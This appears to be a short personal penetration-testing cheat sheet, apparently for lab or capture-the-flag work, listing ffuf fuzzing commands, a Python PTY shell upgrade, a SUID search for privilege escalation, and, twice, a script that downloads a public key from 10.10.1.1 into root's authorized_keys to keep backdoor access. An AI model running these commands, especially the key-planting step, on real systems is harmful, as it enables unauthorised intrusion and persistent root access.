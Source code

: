 # notes
Just some notes for myself which i can almost always reach remotely 

* VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```
* Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

* Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

* Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```



* PTY 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

* Process tree
```ps -ef --forest ```

* SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

* SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

* Simple HTTP python
```
python3 -m http.server 8000
```

* SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
